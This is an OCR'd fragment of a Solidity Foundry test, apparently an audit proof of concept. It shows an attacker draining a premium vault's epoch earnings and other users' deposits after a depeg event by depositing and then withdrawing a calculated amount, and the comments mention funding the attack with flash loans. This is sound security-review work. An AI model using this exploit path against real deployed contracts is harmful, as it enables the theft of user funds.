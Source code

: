 ```solidity
        // user3 deposits funds into the premium vault for epoch 3
        vm.prank(user3);
        premiumVault.depositETH{value:50e18}(
            epochId3,user3
        );

        // as soon as the epoch started, depeg event triggered
        controllerPeggedAssetV2.triggerDepeg(marketId,epochId2);

        // attacker who is watching from the sidelines can swoop in and steal all earnings from premiumVault
        // before user1 can withdraw earnings
        uint256 depositAmount = uint256(10e18)*1000/975; // exact deposit amount to get 10e18 epochId=2 tokens

        vm.prank(attacker);
        premiumVault.depositETH{value:depositAmount}(
            epochId2,attacker
        );

        vm.prank(attacker);
        premiumVault.withdraw( // attacker drains the vault of all earnings from epoch 2
            epochId2,10e18,attacker,attacker
        );

        assertEq(weth.balanceOf(attacker),premiumVault.claimTVL(epochId2));

        // attacker is not only able to drain funds from an individual epoch, but can use this attack path to drain the entire vault of all funds
        // showcasing here how the attacker can drain funds including those deposited by user3 to the unstarted epoch 3 vault
        vm.prank(attacker);
        premiumVault.depositETH{value:depositAmount}(
            epochId2,attacker
        );

        vm.prank(attacker);
        premiumVault.withdraw( // attacker drains the vault of more funds, including user3 deposits
            epochId2,10e18,attacker,attacker
        );

        assertEq(weth.balanceOf(attacker),premiumVault.claimTVL(epochId2)*2); // attacker steals more funds

        // in practice all these calls would be included in a single transaction and would exactly calculate what to deposit/withdraw 
        // to drain all funds. assuming user does not have enough funds onhand, flashloans can be easily used here
    }

}
```
